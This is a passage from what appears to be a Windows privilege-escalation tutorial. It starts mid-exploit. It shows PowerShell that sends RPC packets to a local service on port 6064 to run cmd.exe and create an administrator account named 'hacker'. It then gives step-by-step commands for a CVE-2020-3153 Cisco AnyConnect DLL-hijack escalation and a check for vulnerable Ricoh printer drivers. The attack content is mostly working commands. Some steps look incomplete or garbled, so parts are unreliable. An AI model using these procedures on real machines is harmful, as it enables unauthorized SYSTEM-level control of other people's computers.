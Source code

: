    ```powershell
   $length = [System.BitConverter]::GetBytes($command.Length);
   
   # Send the RPC packets
   $s.Send($header)
   $s.Send($rpcType)
   $s.Send($length)
   $s.Send($command)
   ```

3. **Verify exploitation success**:
   ```cmd
   net user hacker
   # Should show user details and group membership
   ```

### Technical Details

The exploit works by:
1. Connecting to the local RPC server on port 6064
2. Sending specific packets to invoke procedure 5
3. Using path traversal (`..\..\..`) to bypass path restrictions
4. Executing cmd.exe with a command to create a privileged user

## Case Study: Cisco AnyConnect Elevation of Privilege

The Cisco AnyConnect Secure Mobility Client for Windows has had multiple privilege escalation vulnerabilities.

### CVE-2020-3153 Exploitation

1. **Identify the vulnerability**:
   - Cisco AnyConnect before 4.8.02042 is vulnerable
   - The vulnerability is in the installer that runs with SYSTEM privileges

2. **Exploitation**:
   ```cmd
   # Extract acispc.dll to a writable location
   copy "C:\Program Files (x86)\Cisco\Cisco AnyConnect Secure Mobility Client\acispc.dll" C:\Temp\

   # Set up the required files for DLL hijacking
   mkdir "C:\Temp\Cisco\Cisco AnyConnect Secure Mobility Client\"
   copy calc.exe "C:\Temp\Cisco\Cisco AnyConnect Secure Mobility Client\calc.exe"

   # Trigger the vulnerability (repair installation)
   msiexec /fa "C:\Program Files (x86)\Cisco\Cisco AnyConnect Secure Mobility Client\Setup.msi"
   ```

## Case Study: Ricoh Printer Drivers

Ricoh printer drivers before 2020 had a privilege escalation vulnerability:

```powershell
# Check for vulnerable driver
Get-WmiObject Win32_Product | Where-Object {$_.Name -like "*RICOH*"} | Select-Object Name, Version

# The exploit involves replacing a DLL in the driver's directory
# Original exploit: https://www.exploit-db.com/exploits/48036
```
